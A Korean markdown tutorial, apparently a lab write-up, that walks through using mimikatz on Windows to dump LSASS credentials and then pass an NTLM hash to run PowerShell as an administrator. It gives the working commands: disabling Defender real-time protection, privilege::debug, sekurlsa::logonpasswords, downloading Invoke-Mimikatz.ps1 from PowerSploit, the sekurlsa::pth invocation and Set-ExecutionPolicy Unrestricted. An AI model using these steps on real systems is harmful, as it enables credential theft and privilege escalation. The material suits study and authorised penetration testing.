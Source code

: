 ## mimikatz 사용 (lsass 메모리 덤프 및 관리자 계정 로그인)


#### 1. 설치

https://github.com/ParrotSec/mimikatz

위 사이트에서 다운로드 가능하며, Windows 보안 실시간 보호 등을 꺼주어야 다운로드 가능합니다.



- 개요

Mimikatz는 사용자가 메모리 또는 Windows 운영 체제에서 암호, 해시 및 Kerberos 티켓과 같은 인증 자격 증명을 추출할 수 있는 악용 후 도구입니다. 원래 Windows 운영 체제의 보안 취약점을 입증하기 위한 개념 증명 도구로 개발되었지만 현재는 공격자와 보안 전문가 모두가 보안 평가 및 침투 테스트를 수행하는 데 일반적으로 사용됩니다. Mimikatz를 사용하면 공격자는 인증 메커니즘을 우회하고 대상 시스템의 중요한 리소스에 액세스할 수 있는 pass-the-hash, pass-the-ticket 및 골든 티켓 공격과 같은 다양한 공격을 수행할 수 있습니다.


- 기능

Mimikatz는 Windows 시스템에서 다양한 악용 후 작업을 수행하기 위한 다목적 도구입니다. Mimikatz로 할 수 있는 다른 작업은 다음과 같습니다.

* LSASS 메모리 덤프: 이 명령은 LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리에서 암호, 해시 및 Kerberos 티켓과 같은 자격 증명을 추출합니다.
* Pass-the-Hash: 이 기술을 사용하면 공격자가 실제 암호를 모르더라도 사용자 암호의 해시를 사용하여 원격 시스템에 인증할 수 있습니다.
* Pass-the-Ticket: 이 기술을 사용하면 공격자가 실제 사용자의 암호를 모르더라도 Kerberos 티켓을 사용하여 원격 시스템에 인증할 수 있습니다.
* 골든 티켓: 이 기술을 사용하면 공격자가 도메인의 모든 리소스에 액세스하는 데 사용할 수 있는 위조된 Kerberos TGT(Ticket Granting Ticket)를 만들 수 있습니다.
* 실버 티켓: 이 기술을 사용하면 공격자가 도메인의 특정 리소스에 대한 액세스 권한을 얻는 데 사용할 수 있는 위조된 Kerberos 서비스 티켓을 만들 수 있습니다.
* 스켈레톤 키: 이 기술을 사용하면 공격자가 가짜 암호를 도메인 컨트롤러의 메모리에 주입하여 도메인의 모든 사용자에 대한 암호 인증을 효과적으로 우회할 수 있습니다.
* DCSync: 이 기술을 사용하면 관리 권한이 있는 공격자가 도메인 컨트롤러에서 암호 데이터를 복제하여 도메인의 자격 증명 데이터베이스에 효과적으로 액세스할 수 있습니다.
 

#### Pass-The-Hash

Pass-The-Hash는 패스워드값을 사용하는 것이 아닌 패스워드의 해시값을 사용해서 자격증명을 하는 방식입니다. 로그인할 때 우리는 비밀번호를 치지만, Pass-The-Hash 기능을 이용하면 아이디와 해시값을 사용해서 로그인할 수 있습니다. 
Mimikatz를 통해서 lsass 메모리덤프 및 User ID와 NTLM Hash 값을 알아내 일반적인 비밀번호가 아닌 Hash 값으로 로그인할 예정입니다.


#### lsass 메모리 덤프 및 Pass-The-Hash를 이용하여 관리자 계정 시도

* 주의사항
  mimikatz 파일을 다운로드 받은 후 관리자권한으로 실행하여야 에러가 나지 않고 아래와 같이 실행됩니다.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

```

<img width="966" height="507" alt="image" src="https://github.com/user-attachments/assets/d6fe99cf-2cc5-413f-a7b6-e7c94994872a" />


관리자계정이 아닌 다른 계정으로 mimikatz를 실행해주시고 위와 같이 명령어를 입력해주시면 위와 같이 정보를 얻을 수 있습니다.

윈도우10 OS에서도 실행되는 것을 확인했습니다.

위에서 얻은 정보 중 Username, Domain, NTLM 정보를 적어놓습니다. 이후 파워쉘을 실행하고 Mimikatz 파워쉘 스크립트를 아래 명령어로 다운로드 받습니다.

```

Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1

```

위에서 다운로드 받게되면 아래 파일이 생깁니다.

<img width="615" height="44" alt="image" src="https://github.com/user-attachments/assets/1981f31d-f797-413d-90c2-891f11bbc197" />


이후 Pass-The-Hash 기능으로 NTLM hash 값을 이용하여 관리자 계정으로 접근하는 명령어를 실행합니다.

```

invoke-mimikatz -command '"sekurlsa::pth /user:user/domain:DESKTOP-B6EDDU2 /ntlm:c5928614e7dcd1e3ec18503cb1***** /run:powershell.exe"'

```
* 주의사항
기본적으로 위 명령어는 바로 실행되지 않더라구요.

<img width="841" height="105" alt="image" src="https://github.com/user-attachments/assets/7790099f-4fe8-4dda-9140-45f74f68f317" />

위 명령어를 바로 실행할 경우 위 사진과 같은 오류메시지가 발생하고 이를 해결하는 방법으로는 

모든 제약을 푸는 아래 명령어를 입력한 후 시도해주시면 됩니다.

```

Set-ExecutionPolicy Unrestricted

```

관리자 계정 접근이 정상적으로 되었는지 whoami , ipconfig 등 다양한 명령어를 시도해봅니다

<img width="852" height="232" alt="image" src="https://github.com/user-attachments/assets/143ebbad-2d6a-4eb2-9d8e-7b707c94204e" />

위 사진을 보니 정상적으로 제 관리자계정인 user 계정으로 정상 접근됨이 확인되었습니다.


